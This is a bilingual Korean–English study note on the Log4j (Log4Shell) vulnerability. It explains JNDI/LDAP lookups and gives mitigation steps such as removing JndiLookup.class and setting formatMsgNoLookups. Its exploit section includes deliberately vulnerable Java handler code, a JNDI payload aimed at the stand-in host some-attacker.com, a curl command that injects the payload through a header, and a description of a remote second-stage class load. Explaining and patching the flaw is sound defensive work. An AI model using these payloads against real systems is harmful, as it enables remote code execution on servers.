 ## Log4j 개념 설명과 Log4j가 보안 위험에 노출된 이유

> Apache Log4j2 versions 2.0-beta7 through 2.17.0 are vulnerable to a **remote code execution(RCE) attack** where an **attacker** with permission to modify the logging configuration file **can construct a malicious configuration using a JDBC Appender with a data source referencing a JNDI URI which can execute remote code.** This issue is fixed by limiting JDNI data source names to th java protocol in Log4j2 versions 2.17.1, 2.12.4, and 2.3.2
>

Log4j는

- JAVA 기반 오픈소스 유틸리티로 엔터프라이즈 애플리케이션과 웹사이트에서 많이 사용된다.
- 서비스 동작 과정에서 일어나는 모든 기록을 남긴다.
- 침해 사고 발생 및 이상 징후를 점검하기 위해 Log4j를 이용한다.

이번 Log4j 취약점은 JNDI (Java Naming Directory Interface)와 LDAP (Lightweight Directory Access Protocol)에서 시작한다. 

- JNDI : JAVA  프로그램이 디렉토리를 통해 데이터를 찾을 수 있는 다양한 디렉토리 서비스 Interface를 제공한다. 그중 하나가 LDAP
- Java 프로그램들은 JDNI와 LDAP를 통해 Java 객체를 찾을 수 있다.
- 여기서 문제는 Log4j에 이를 이용하여 편하게 Java 객체를 볼 수 있게하는 특정 문법이 존재한다는 것이다.
- 이 문법들은 로그가 기록될 때도 사용이 가능하다. 해커들은 로그가 기록되는 곳을 찾아 취약점을 이용할 수 있게 된다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa000d09-d02e-438a-b350-55f63b79fe58/Untitled.png)

## 해결 방법

- 가장 확실한 조치는 log4j 라이브러리를 2.15 이상으로 업데이트 하는 것이다.
- 그러나 단 기간에 라이브러리를 업데이트하고 재검증하기 어려울 경우, 다음과 같은 선제 조치를 취한다.

**1) JndiLookup을 log4j-core에서 제거**

- 라이브러리 경로에서 아래 명령을 실행하면 JndiLookup.class가 제거된다.

```sql
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

**2) JVM 옵션으로 JndiLookup 기능을 제한하는 방법**

: -Dlog4j2.formatMsgNoLookups=true 옵션과 함께 애플리케이션을 실행한다. 

```bash
java -Dlog4j2.formatMsgNoLookups=true -jar myapp.jar
```


### log4j 버전 별 조치 대상과 조치 방안

1. 버전 1.x : JMSAppender 사용 (JMSSink, JDBCAppender, Chainsaw)
    - 조치 : JMSAppender.class 제거 (JMSSink, JDBCAppender, Chainsaw)
    - 확인 : 임시 폴더에서 log4j*.jar 압축 해제 후 JMSAppender.class  (JMSSink, JDBCAppender, Chainsaw) 파일 없음 확인
        
        ```bash
        $ cp ./ log4j-core-*.jar /temp/  (템프디렉토리 등 압축 해제할 디렉토리에 카피한다)
        $ cd /temp
        $ unzip log4j-core*.jar | egrep –i “JndiLookup.class”
        $ 화면 캡쳐(jndilookup.class 파일이 없음) 후  jar 파일과 jar 압축 해제한 파일 삭제
        ```
        

1. 버전 2.x : api core 파일 사용
    - 조치 : jndilookup class 제거 + ctx:login 미사용 조치
    - 확인
        - log4j*.jar 압축 해제 후 JndiLookup.class 파일 없음 확인
        - log4j2.properties의 PatternLayout에서 ${ctx:loginId} 제거 또는 (%X, %mdc, $MDC)로 변경
    - 혹은 버전을 업데이트 한다.


## How the exploit works

### Exploit Requirements

- A server with a vulnerable log4j version
- An endpoint with any protocol (HTTP, TCP, etc), that allows an attacker to send the exploit string.
- A log statement that logs out the string from that request.

### Example Vulnerable Code

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://some-attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

- 다음과 같은 요청을 보냄

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

### Exploit Steps

1. Data from the User gets sent to the server (via any protocol).
2. logs the data containing the malicious payload from the request `${jndi:ldap://some-attacker.com/a}`, where `some-attacker.com` is an attacker controlled server.
3. The log4j vulnerability is triggered by this payload and the server makes a request to `some-attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI).
4. This response contains a path to a remote Java class file (ex. `http://second-stage.some-attacker.com/Exploit.class`), which is injected into the server process.
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

## 참고 자료

[https://www.whatap.io/ko/blog/100/](https://www.whatap.io/ko/blog/100/)

[https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)

[https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)

[https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)
